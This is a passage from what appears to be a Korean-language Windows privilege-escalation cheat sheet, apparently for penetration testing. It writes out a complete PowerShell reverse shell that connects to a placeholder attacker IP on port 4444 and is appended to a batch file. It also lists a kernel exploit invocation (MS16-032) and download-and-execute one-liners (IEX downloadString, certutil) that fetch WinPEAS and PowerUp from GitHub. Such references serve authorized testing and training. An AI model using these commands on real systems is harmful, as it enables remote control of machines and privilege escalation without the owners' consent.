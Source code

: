 ```cmd
echo "powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('{ATTACKER_IP}',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"" >> script.bat
```

### 💾 커널 익스플로잇

```cmd
# 시스템 정보로 익스플로잇 검색
systeminfo > systeminfo.txt
# Windows-Exploit-Suggester 사용 (Kali에서)
# python windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo systeminfo.txt

# 자주 나오는 커널 익스플로잇들
# MS16-032 (Windows 7-10/2008-2016)
powershell -ExecutionPolicy ByPass -command "& { . C:\temp\Invoke-MS16032.ps1; Invoke-MS16032 }"

# MS17-010 (EternalBlue)
# PrivExchange 등
```

## 🤖 자동화 도구 활용

### 🔍 WinPEAS (최고 우선순위)

```powershell
# PowerShell 버전
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')

# 실행 파일 버전
certutil -urlcache -split -f "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEAS.exe" winpeas.exe
.\winpeas.exe

# 결과를 파일로 저장
.\winpeas.exe > winpeas_output.txt
```

### 🛡️ PowerUp (PowerSploit)

```powershell
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
Invoke-AllChecks

# 특정 검사들
Get-UnquotedService
Get-ModifiableServiceFile
Get-ModifiableService
Get-ServiceUnquoted
```

